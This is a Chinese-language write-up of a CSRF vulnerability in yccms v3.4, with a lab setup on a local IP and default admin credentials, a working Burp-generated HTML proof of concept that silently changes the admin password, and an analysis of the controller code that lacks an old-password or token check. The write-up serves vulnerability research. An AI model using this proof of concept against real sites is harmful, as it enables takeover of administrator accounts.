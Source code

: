 ```yaml
---
title: web漏洞@yccms v3.4 csrf漏洞
date: 2021-04-17 16:31:22
cover: https://i.loli.net/2021/04/17/Tnoa3sSO2prCYb7.png
---
```


## 漏洞环境

yccms v3.4

## 漏洞复现

搭建好环境登陆后台

[http://192.168.0.21/yccms_v3.4/admin](http://192.168.0.21/yccms_v3.4/admin)

默认密码admin,admin

登陆成功后执行下面的poc就会成功将密码修改为admin2，后台登陆状态会强制下

```php
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->

<body>
    <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.0.21/yccms_v3.4/admin/?a=admin&m=update" method="POST">
        <input type="hidden" name="username" value="admin" />
        <input type="hidden" name="password" value="admin2" />
        <input type="hidden" name="notpassword" value="admin2" />
        <input type="hidden" name="send" value="ä&#191;&#174;æ&#148;&#185;å&#175;&#134;ç&#160;&#129;" />
        <input type="submit" value="Submit request" />
    </form>
</body>

</html>
```

## 漏洞原理

先找到根目录下控制器文件夹C:\phpstudy_pro\WWW\yccms_v3.4\controller

可以知道admin路径对应的是AdminAction控制器

![yccms%20v3%204%20csrf%E6%BC%8F%E6%B4%9E%2007680c110529461f93250d4ede511790/Untitled.png](https://i.loli.net/2021/04/17/soy8E1CfXVMe6hD.png)

接下来看下AdminAction.class.php，可以看到修改密码的函数 

![yccms%20v3%204%20csrf%E6%BC%8F%E6%B4%9E%2007680c110529461f93250d4ede511790/Untitled%201.png](https://i.loli.net/2021/04/17/OSWRVYmHaAhl4T3.png)

我们在后台找到修改密码的地方进行抓包对比

a对应action,m对应method，再通过post请求发送username、password、notpassword、send这几个参数就可以发送修改密码的请求

可以看到这里并没有要求输入旧密码，因此可以生成个csrf，测试有没有csrf漏洞

![yccms%20v3%204%20csrf%E6%BC%8F%E6%B4%9E%2007680c110529461f93250d4ede511790/Untitled%202.png](https://i.loli.net/2021/04/17/aMwkANo3pntsDmi.png)

登陆后台后，点击生成的poc文件，密码会被修改